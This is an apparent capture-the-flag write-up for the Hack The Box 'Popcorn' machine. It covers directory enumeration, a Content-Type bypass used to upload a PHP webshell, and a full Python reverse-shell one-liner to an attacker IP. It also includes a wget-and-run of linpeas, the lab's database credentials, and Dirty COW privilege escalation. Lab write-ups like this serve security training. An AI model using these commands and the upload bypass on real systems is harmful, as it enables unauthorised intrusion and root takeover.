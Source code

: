 22 and 80 open

add popcorn.htb to /etc/hosts
running gobuster

```
sudo gobuster dir -u http://popcorn.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -o gobuster
```

found /test with a phpconfig file. THis file tells us that this box runs popcorn linux, this is some information on popcorn:
https://lkml.org/lkml/2020/4/29/1111

In short, this allows applications to run on distributed hosts, starting on one and migrating to other hosts user the same process and memory space.

The other page I found was /torrent/
http://popcorn.htb/torrent/

We can create an account to inspect this more in depth.

we can see a kali torrent. I tried uploading shells and playing with the extension of the shell but with no success. So I grabbed an ubuntu .torrent file. After uploading this file, I can edit the entry to add a screenshot. So I rename the php shell (since I know this page runs php) and add a .png extension to trick the image check.
This doesn't work tho so let's inspect the request with burp. Changing the content-type to image/png allowed me to upload a webshell. Now we can access this under /torrent/upload/

Using which python shows that I can use python to get a regular reverse shell. Head over to revshells.com and generate one. I used this one:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.75",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Now I can grab the user.txt from the home folder of george.
After this, head to /tmp and grab linpeas.sh from the attackbox. we can transfer this via wget. Host a python server where linpeas is located:
```
sudo python3 -m http.server 80
```

Now we can grab and execute like this:
```
wget 10.10.14.75/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
```

Linpeas found some db credentials:
```
/var/www/torrent/config.php:  $CFG->dbPassword = "SuperSecret!!";       //db password
/var/www/torrent/config.php:  $CFG->dbUserName = "torrent";    //db username

```

But we can't login as george with this. SInce this is a very old box (kernel version from 2009 according to uname -a and linpeas), we can simply run dirtycow on this.

Since which gcc shows that we can run gcc, we can simply compile this on the target machine which makes it easier. Grab the .c file:
```
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
```

After trying some of the exploits, dirty.c worked compiled without issues. We have use some compile options tho (you can find this in the .c file):
https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c

```
gcc -pthread cow.c -o cow -lcrypt
```
Run the cow binary, grab root and we're done.

